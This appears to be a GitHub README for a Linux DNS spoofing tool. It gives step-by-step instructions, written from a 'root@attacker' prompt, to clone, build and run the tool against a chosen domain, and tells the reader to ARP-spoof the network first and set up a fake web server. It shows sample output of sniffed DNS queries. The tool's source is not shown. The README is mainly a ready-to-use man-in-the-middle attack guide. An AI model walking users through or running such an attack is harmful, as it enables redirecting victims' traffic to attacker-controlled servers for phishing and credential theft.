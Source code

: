 # DNS-Spoof
Linux DNS Spoofing tool


<img src="/demo.gif" witdh="690" height="380">


* You must arp-spoofing before dns-spoofing, and need fake web server.

1. Clone this project
```
[root@attacker dns_spoof]# git clone https://github.com/tear94fall/DNS-Spoof.git
[root@attacker dns_spoof]# ls -al  
합계 20  
drwxr-xr-x  3 test test    70 11월 14 17:46 .  
drwxr-xr-x. 6 root root   112 11월 14 14:23 ..  
drwxr-xr-x  8 root root   166 11월 14 17:47 .git  
-rw-rw-rw-  1 root root 10957 11월 14 17:46 main.cpp  
-rw-rw-rw-  1 test test    90 11월 13 10:36 makefile  
-rw-rw-rw-  1 root root  1132 11월 14 16:01 protocol.hpp  
```

2. Build project
```
[root@attacker dns_spoof]# make  
gcc main.cpp -o main -lnet -lpcap -lpthread  
```

3. Execute with info
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
```  

4. Choose the network interface and wait  
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
Enter the interface number you would like to sniff : 1
dns-spoofing: linstening on <network interface> [udp dst port 53 and not src <fake web server>]
192.168.0.123.38812 > 192.168.0.1.53:  9108+ A? www.google.com
192.168.0.74.36095 > 192.168.0.1.53:  <DNS id>+ A? <target_domain>

```
